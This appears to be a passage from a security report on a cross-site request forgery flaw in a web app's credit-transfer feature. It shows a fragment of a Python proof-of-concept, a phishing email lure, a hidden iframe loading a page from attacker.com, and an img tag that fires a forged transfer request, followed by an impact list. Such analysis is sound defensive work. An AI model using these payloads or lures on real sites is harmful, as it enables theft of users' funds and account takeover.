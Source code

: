 ```python
            'csrfmiddlewaretoken': csrf_token,
            'recipient': 'attacker',
            'amount': '100'
        }
        
        # This would be embedded in malicious site
        print("[*] Attack payload:", attack_data)
```

## Attack Scenarios

### Scenario 1: Social Engineering Email
```
Subject: Your Amazon Order Has Shipped!

Dear Customer,

Your order #123456 has been shipped!
Track your package: http://evil-site.com/track

[Link hosts CSRF attack page]
```

### Scenario 2: Malicious Advertisement
```javascript
// Malicious ad network code
document.write('<iframe src="http://attacker.com/csrf.html" style="display:none"></iframe>');
```

### Scenario 3: Forum Post with Embedded Attack
```html
<!-- Forum post -->
<p>Check out this cool image!</p>
<img src="http://localhost:8000/transfer-credits/?recipient=attacker&amount=50">
```

## Impact Analysis

### Financial Impact
- **Credit Theft**: Transfer all user credits to attacker accounts
- **Financial Loss**: Direct monetary loss if credits have real value
- **Fraud**: Use stolen credits for purchases

### Account Takeover
- **Email Change**: Hijack account by changing email
- **Password Reset**: Use new email to reset password
- **Full Control**: Complete account takeover

### Data Manipulation
- **Profile Changes**: Modify user preferences
- **Order Manipulation**: Change shipping addresses
- **Privacy Breach**: Expose user data to attackers
